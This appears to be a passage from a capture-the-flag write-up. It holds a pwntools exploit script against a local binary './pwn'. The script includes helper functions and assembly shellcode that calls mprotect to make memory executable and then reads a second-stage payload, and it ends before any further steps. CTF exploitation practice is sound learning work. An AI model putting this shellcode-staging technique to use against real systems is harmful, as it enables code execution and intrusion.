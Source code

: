 [![](assets/1708654729-0c4971c7f53126553823421cb3ac8849.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104559-584355b8-d063-1.png)

### exp1

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process("./pwn")

def duan():
    gdb.attach(p)
    pause()

shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')
```
